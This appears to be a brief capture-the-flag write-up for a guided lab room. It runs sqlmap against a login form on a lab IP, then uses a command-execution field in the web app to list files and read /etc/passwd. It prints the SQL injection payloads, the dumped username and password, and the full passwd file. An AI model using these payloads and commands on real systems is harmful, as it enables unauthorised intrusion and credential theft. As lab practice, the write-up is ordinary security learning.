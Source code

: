 its guided room...so speedrun

obvious sql injection

```
sqlmap -u http://10.10.5.111/administrator.php --forms --dump

Parameter: username (POST)
Type: boolean-based blind
Title: MySQL RLIKE boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause
Payload: username=iewm' RLIKE (SELECT (CASE WHEN (6931=6931) THEN 0x6965776d ELSE 0x28 END))-- pxHY&password=

Type: error-based
Title: MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)
Payload: username=iewm' AND GTID_SUBSET(CONCAT(0x7178787a71,(SELECT (ELT(1090=1090,1))),0x7171767871),1090)-- qgeV&password=

Type: time-based blind
Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
Payload: username=iewm' AND (SELECT 7299 FROM (SELECT(SLEEP(5)))IoDT)-- SNGS&password=

---

Database: users
Table: users
[1 entry]
+------------+----------+
| password | username |
+------------+----------+
| secretpass | pingudad |
+------------+----------+
```

After login the rce input says "command"...bruh we know its RCE but damn that was direct

```
ls

2591c98b70119fe624898b1e424b5e91.php administrator.php index.html index.html
```

```
cat /etc/passwd

root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:x:2:2:bin:/bin:/usr/sbin/nologin sys:x:3:3:sys:/dev:/usr/sbin/nologin sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/usr/sbin/nologin man:x:6:12:man:/var/cache/man:/usr/sbin/nologin lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin mail:x:8:8:mail:/var/mail:/usr/sbin/nologin news:x:9:9:news:/var/spool/news:/usr/sbin/nologin uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin proxy:x:13:13:proxy:/bin:/usr/sbin/nologin www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin backup:x:34:34:backup:/var/backups:/usr/sbin/nologin list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false syslog:x:104:108::/home/syslog:/bin/false \_apt:x:105:65534::/nonexistent:/bin/false messagebus:x:106:110::/var/run/dbus:/bin/false uuidd:x:107:111::/run/uuidd:/bin/false papa:x:1000:1000:qaa:/home/papa:/bin/bash mysql:x:108:116:MySQL Server,,,:/nonexistent:/bin/false sshd:x:109:65534::/var/run/sshd:/usr/sbin/nologin pingu:x:1002:1002::/home/pingu:/bin/bash pingu:x:1002:1002::/home/pingu:/bin/bash
```
